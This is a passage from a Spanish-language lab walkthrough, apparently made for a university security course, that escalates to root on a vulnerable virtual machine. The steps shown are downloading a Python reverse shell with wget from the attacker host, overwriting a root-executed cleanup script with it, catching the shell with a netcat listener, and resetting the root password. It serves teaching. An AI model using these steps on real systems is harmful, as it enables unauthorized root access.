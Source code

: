 El archivo se encuentra en el directorio: `/usr/local/bin/cleanup`

Con la conexión reversa ya establecida, procedemos a utilizar el comando cat para visualizar el contenido del archivo

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/16-Cleanup.png)

Entonces usaremos este archivo para generar una shell reversa con los persmisos de root. Para lograr este cometido, debemos pasar un archivo con la shell reversa en Python y luego reemplazar el contenido del archivo cleanup con la shell reversa.

Para pasar el archivo, levantamos un servidor http en Kali Linux mediante la instrucción `service apache2 start` y procedemos a crear un archivo con el código fuente en Python de una shell reversa, que apunte a la IP `10.0.2.5` y al puerto `1111`.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/17-ShellReversaPython.png)

Haciendo uso de la conexión inicial, en el puerto 1234, procedemos a descargar la shell reversa mediante el comando wget de la siguiente manera: `wget 10.0.2.5/srpython`.
Una vez que contamos con el archivo en el `/var/www` de la victima, procedemos a sobre-escribir el archivo cleanup, de la siguiente manera: `cp srpython /usr/local/bin/cleanup`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/18-SetReverseShell.png)

Cuando ya tenemos el archivo modificado, devemos abrir un listener mediante netcat para recibir la conexión entrante.
El comando para realizar esto es: `nc -lvp 1111`.
Como podemos ver luego de un par de segundos, es que recibimos correctamente la conexión y YA SOMOS ROOT!

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/19-whoami.gif)

Ahora como ya somos root, podemos incluso cambiar la clave de este usuario:

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/20-cambioClaveRoot.gif)

Y por último ingresamos directamente a la Máquina virtual, mediante el usuario `root` y la clave que seteamos: `password`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/21-root.gif)

## Fase de Documentación

En esta fase, se presenta un documento formal, como este mismo. Demostrando las evidencias y dando a entender los procesos y/o fallas descubiertas con el fin de ser solucionadas. En este caso la recomendación es: usar claves mucho más complejas, dado que esto impide o relentiza el proceso de fuerza bruta.

# ESTO ES EL FIN

Cualquier duda, me contanctan en twitter en: @agustin_salas_f

[Universidad Tecnológica de Chile INACAP](http://www.inacap.cl).
